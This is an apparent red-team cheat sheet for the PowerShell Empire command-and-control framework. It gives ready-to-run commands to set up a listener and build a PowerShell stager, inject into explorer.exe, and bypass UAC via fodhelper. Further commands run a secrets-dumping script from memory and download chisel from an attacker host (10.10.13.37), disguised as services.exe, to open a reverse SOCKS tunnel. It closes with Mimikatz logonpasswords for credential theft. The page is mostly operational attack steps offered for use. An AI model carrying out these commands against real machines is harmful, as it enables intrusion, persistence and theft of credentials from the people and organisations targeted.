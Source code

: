 # Empire

* [https://xakep.ru/2020/06/03/powershell-empire/](https://xakep.ru/2020/06/03/powershell-empire/)




## Install

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)

```
$ git clone --recursive https://github.com/BC-SECURITY/Empire.git
$ cd Empire
$ sudo ./setup/install.sh
$ sudo poetry install
```




## Run

```
$ ./ps-empire server [--restip 127.0.0.1 --username snovvcrash --password 'Passw0rd!']
$ ./ps-empire client
```

Reset the database:

```
$ ./ps-empire server --reset
```




## Cheatsheet

Prepare a listener:

```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Name http1
(Empire: listeners/http) > set Host 10.10.13.37
(Empire: listeners/http) > set Port 80
(Empire: listeners/http) > execute
```

Generate a PowerShell stager:

```
(Empire: listeners) > usestager multi/launcher
(Empire: stager/multi/launcher) > set Listener http1
(Empire: stager/multi/launcher) > set OutFile /home/snovvcrash/www/rev.ps1
(Empire: stager/multi/launcher) > execute
```

Re-inject into an interactive process (e.g., `explorer.exe`):

```
(Empire: listeners) > agents
(Empire: agents) > rename LKH7SD3V A1
(Empire: agents) > interact A1
(Empire: A1) > sysinfo
(Empire: A1) > shell Get-Process explorer
(Empire: A1) > psinject exch <EXPLORER_EXE_PID>
```

Bypass UAC to get a high integrity process:

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule privesc/bypassuac_fodhelper
(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http1
(Empire: powershell/privesc/bypassuac_fodhelper) > run
```

Execute a PowerShell script from memory (e.g., [`Invoke-SharpSecDump.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)):

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule management/invoke_script
(Empire: powershell/management/invoke_script) > set ScriptPath /home/snovvcrash/tools/dump.ps1
(Empire: powershell/management/invoke_script) > set ScriptCmd Invoke-SharpSecDump -C "-tager=127.0.0.1"
(Empire: powershell/management/invoke_script) > run
```

Start a process in the background (e.g., [chisel](https://github.com/jpillora/chisel) SOCKS proxy):

```
(Empire: A1) > shell IWR http://10.10.13.37:8080/chisel.exe -OutFile C:\Windows\services.exe -UseBasicParsing
(Empire: A1) > shell Start-Process -NoNewWindow -FilePath C:\Windows\services.exe -ArgumentList "client 10.10.13.37:8000 R:socks"
```

Invoke a custom Mimikatz command:

```
(Empire: A1) > usemodule credentials/mimikatz/command
(Empire: powershell/credentials/mimikatz/command) > set Command '"privilege::debug" "ts::logonpasswords" "exit"'
(Empire: powershell/credentials/mimikatz/command) > run
```




## Customizing Agents

* [https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/)
